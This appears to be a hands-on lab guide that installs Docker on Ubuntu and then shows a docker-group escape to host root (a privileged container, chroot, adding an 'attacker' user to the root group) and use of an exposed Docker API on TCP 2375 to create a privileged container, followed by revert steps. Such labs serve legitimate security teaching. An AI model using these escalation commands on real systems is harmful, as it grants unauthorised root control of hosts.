 ### Install Docker in Ubuntu

```sh
sudo apt-get update
sudo apt-get install ca-certificates curl
sudo install -m 0755 -d /etc/apt/keyrings
sudo curl -fsSL https://download.docker.com/linux/ubuntu/gpg -o /etc/apt/keyrings/docker.asc
sudo chmod a+r /etc/apt/keyrings/docker.asc

echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/ubuntu \
  $(. /etc/os-release && echo "${UBUNTU_CODENAME:-$VERSION_CODENAME}") stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
sudo apt-get update
```

```sh
sudo apt-get install -y docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin
```

```sh
systemctl status docker
```

### Docker Group Security
```sh
useradd test-user 

id test-user

usermod -aG docker test-user
passwd test-user

su - test-user

sudo su -

docker run --rm -it --privileged --net=host -v /:/mnt ubuntu chroot /mnt bash

whoami

useradd attacker

usermod -aG root attacker
```
Logout from container
```sh
userdel attacker

gpasswd -d test-user docker

gpasswd -d attacker root
```

### Expose the Docker API
```sh
nano /usr/lib/systemd/system/docker.service
```
```sh
ExecStart=/usr/bin/dockerd -H unix:///var/run/docker.sock -H tcp://127.0.0.1:2375 --containerd=/run/containerd/containerd.sock
```

```sh
systemctl daemon-reload

systemctl restart docker
```
### Testing if Docker API Is Exposed

An attacker can check if the Docker remote API is accessible using curl:
```sh
curl http://127.0.0.1:2375/version
```
An attacker can list all running containers:
```sh

docker run -d nginx

curl http://127.0.0.1:2375/containers/json
```

Create New Container
```sh
curl -X POST -H "Content-Type: application/json"   --data '{"Image": "nginx", "Cmd": ["tail", "-f", "/dev/null"], "HostConfig": {"Privileged": true}}'   http://127.0.0.1:2375/containers/create
```

Start the Container
```sh
curl -X POST http://127.0.0.1:2375/containers/<CONTAINER_ID>/start
```

### Reverting the Changes:

1. Remove Docker API from /usr/lib/systemd/system/docker.service
```sh
systemctl daemon-reload

systemctl stop docker

systemctl stop docker.socket

systemctl start docker

docker ps -a
docker rm <container-name>

docker images
docker rmi <image-names>
```